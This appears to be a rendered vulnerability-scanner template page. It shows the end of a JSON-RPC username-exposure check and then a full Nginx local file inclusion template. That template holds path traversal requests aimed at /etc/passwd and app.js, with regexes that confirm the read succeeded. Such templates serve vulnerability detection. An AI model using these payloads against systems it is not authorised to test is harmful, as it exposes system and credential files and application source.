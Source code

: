 ### Matchers

**Type - status**

- status
  1. 200

**Type - word**

- part - body
- words
  1. result
  2. username
  3. jsonrpc
  4. is_active
- condition - and

### Extractors

**Type - json**

- part - body
- json
  1. .result[].username

---

# Nginx Server - Local File Inclusion

## Description

- Nginx server is vulnerable to local file inclusion.
- severity - high
- tags - exposure,config,lfi,nginx

## Requests

- Method - GET

### URL

- {{BaseURL}}///////../../../etc/passwd
- {{BaseURL}}/static///////../../../../etc/passwd
- {{BaseURL}}///../app.js

### Matchers

**Type - regex**

- regex
  1. root:.\*:0:0:
  2. app.listen
- part - body
- condition - or
